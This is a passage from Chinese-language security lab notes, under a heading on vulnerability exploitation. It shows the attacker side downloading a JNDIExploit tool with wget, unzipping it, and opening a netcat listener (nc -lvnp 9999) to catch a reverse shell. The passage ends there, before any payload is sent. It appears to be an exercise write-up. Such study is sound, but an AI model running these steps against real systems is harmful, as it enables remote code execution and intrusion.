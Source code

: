 ![1742140185201](image/网络安全丁梦/1742140185201.png)

### 4.漏洞利用

```
 wget https://github.com/Mr-xn/JNDIExploit-1/releases/download/v1.2/JNDIExploit.v1.2.zip
```

这里实际是攻击者

![1742630544922](image/网络安全丁梦/1742630544922.png)

因为失败了几次，最后下载的成功的带有.5

```
unzip JNDIExploit.v1.2.zip.5
```

1. **确保先开启监听**（在一个新终端中）：

```bash
nc -lvnp 9999
```
